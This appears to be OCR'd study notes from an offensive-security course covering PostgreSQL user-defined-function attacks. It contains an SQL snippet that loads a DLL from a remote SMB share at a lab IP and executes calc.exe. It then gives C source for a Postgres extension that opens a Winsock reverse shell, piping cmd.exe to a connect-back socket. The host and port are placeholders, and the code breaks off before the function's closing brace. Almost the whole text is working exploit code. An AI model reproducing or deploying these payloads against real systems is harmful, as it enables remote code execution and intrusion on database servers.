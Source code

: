 ```PSQL
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
SELECT remote_test($$calc.exe$$, 3);
```
#### Reverse Shell
Example reverse shell:
```C
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
connect_back(PG_FUNCTION_ARGS)
{

	/* convert C string to text pointer */
#define GET_TEXT(cstrp) \
   DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

	/* convert text pointer to C string */
#define GET_STR(textp) \
  DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	/* FIX THIS */
	hax.sin_port = XXXXXXXXXXXXX
	/* FIX THIS TOO*/
	hax.sin_addr.s_addr = XXXXXXXXXXXXXXX

	WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&sui, 0, sizeof(sui));
	sui.cb = sizeof(sui);
	sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

	CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
	PG_RETURN_VOID();
```